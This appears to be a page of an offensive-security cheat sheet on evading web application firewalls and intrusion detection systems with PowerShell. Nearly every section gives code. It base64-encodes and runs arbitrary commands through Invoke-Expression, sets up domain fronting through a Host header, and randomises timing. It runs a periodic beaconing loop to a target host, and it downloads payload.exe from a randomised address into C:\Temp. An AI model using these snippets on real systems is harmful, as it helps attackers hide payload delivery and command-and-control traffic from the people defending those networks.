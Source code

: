 # Load Balancer and WAF Evasion

#### WAF Bypass with Obfuscation
Encode or modify payloads to evade web application firewalls (WAF) that rely on signature-based detection.

- PowerShell Payload Encoding:
	```powershell
	$payload = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("malicious command"))
	Invoke-WebRequest -Uri "http://<target_ip>?cmd=$payload"
	```

#### Domain Fronting
Use high-trust domains like cloud providers to tunnel malicious traffic, bypassing WAF filters.

- PowerShell Domain Fronting:
	```powershell
	$webclient = New-Object System.Net.WebClient
	$webclient.Headers.Add("Host", "fronted.domain.com")
	$webclient.DownloadString("https://legitimate.host/path")
	```

# IDS/IPS Evasion Techniques

#### Signature-Based Detection Evasion
Use polymorphic encoding techniques to evade IDS/IPS signature detection by modifying the payload before sending it.

- Base64 Encode Payload in PowerShell:
	```powershell
	$encodedPayload = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("malicious command"))
	Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encodedPayload)))
	```

#### Randomize Traffic Patterns
Randomize traffic patterns by altering packet intervals, sizes, and sources to avoid detection by IDS/IPS that rely on traffic analysis.

- Randomize Traffic with Sleep Intervals:
	```powershell
	$randomDelay = Get-Random -Minimum 5 -Maximum 30
	Start-Sleep -Seconds $randomDelay
	Invoke-WebRequest -Uri "http://<target_ip>"
	```
- Generate Random Beaconing Times:
```powershell
While ($true) {
    $sleepTime = Get-Random -Minimum 300 -Maximum 600
    Start-Sleep -Seconds $sleepTime
    Invoke-WebRequest -Uri "http://<target_ip>/ping"
}
```
- Randomize IP Addressing in Payload Delivery:
```powershell
$randomOctet = Get-Random -Minimum 1 -Maximum 254
$targetIP = "192.168.1.$randomOctet"
Invoke-WebRequest -Uri "http://$targetIP/payload.exe" -OutFile C:\Temp\payload.exe
```
